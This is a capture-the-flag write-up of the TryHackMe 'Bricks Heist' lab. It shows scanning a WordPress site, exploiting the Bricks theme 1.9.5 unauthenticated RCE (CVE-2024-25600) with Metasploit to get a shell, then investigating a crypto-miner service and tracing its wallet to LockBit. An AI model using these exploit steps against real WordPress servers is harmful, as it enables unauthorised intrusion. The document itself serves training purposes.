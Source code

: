 # TryHack3M: Bricks Heist

<p align="center">
    <img src="img/banner.PNG">
</p>

## Description

Brick Press Media Co. was working on creating a brand-new web theme that represents a renowned wall using three million byte bricks. Agent Murphy comes with a streak of bad luck. And here we go again: the server is compromised, and they've lost access.

Can you hack back the server and identify what happened there?

**Note** : Add `MACHINE_IP bricks.thm` to your **/etc/hosts** file.

#

#### What is the content of the hidden .txt file in the web folder?

First, before do further enumaration, let's scan the IP first with nmap

<img src="img/scan.PNG">

Interesting find here, without wasting any time let's look further with [**WpScan**](https://www.kali.org/tools/wpscan/)

<img src="img/2.PNG">

The scan shows the site using Theme `bricks` with version `1.9.5`, after some research and finding we found the version is Vuln to Unauthenticated RCE

<img src="img/3.PNG">

The exploit and cve for the version is on github but i want to use metasploit to speed up the exploit
> https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT

Power up your msfconsole and search for bricks, you shall find the matching modules

<img src="img/4.PNG">

simply use command `use 0` and fill in the require and you shall get the shell

<img src="img/5.PNG">

```
set LHOST 10.8.58.21
set RHOSTS https://bricks.thm
set RPORT 443
run
```

with that you may find the answer for Task 1 

<img src="img/6.jpg">

#

#### What is the name of the suspicious process? & What is the service name affiliated with the suspicious process?

For this one go to google and do some research about it , then you'll found the command 

<img src="img/systemctl.PNG">

get back to the terminal and try out the command 

<img src="img/7.PNG">

but this is not the answer, let's try view the content of the service

<img src="img/8.jpg">

That's what we want.  

#

#### What is the log file name of the miner instance?

Notice that the service is executing from `/lib/NetworkManager/` directory, go to that directory 

<img src="img/9.jpg">

also notice that file named `inet.conf` only has read permissions, using head to view the file

<img src="img/log-file.PNG">

The content of the file looks like log file

# 

#### What is the wallet address of the miner instance? & The wallet address used has been involved in transactions between wallets belonging to which threat group?

Using the strings on the log file that we view earlier, try to decode with [CyberChef](https://gchq.github.io/CyberChef/)

<img src="img/10.PNG">

kinda lost on what that is, but since we searched about wallet address so i did some research 

<img src="img/wallet.PNG">

so i need to confirm it, go to [Blockchair](https://blockchair.com/) , lucky it was the correct one, so i went down to the last payment received

<img src="img/11.PNG">

Inside that transaction history and from there, inside the privacy check

<img src="img/12.PNG">

We can see the details on the transaction

<img src="img/13.PNG">

Copy the sender address and search it on google, most of the result return `LockBit`

> Source :
>
> https://ofac.treasury.gov/recent-actions/20240220
>
> https://www.chainalysis.com/blog/lockbit-takedown-sanctions-february-2024/

### The End, Thanks
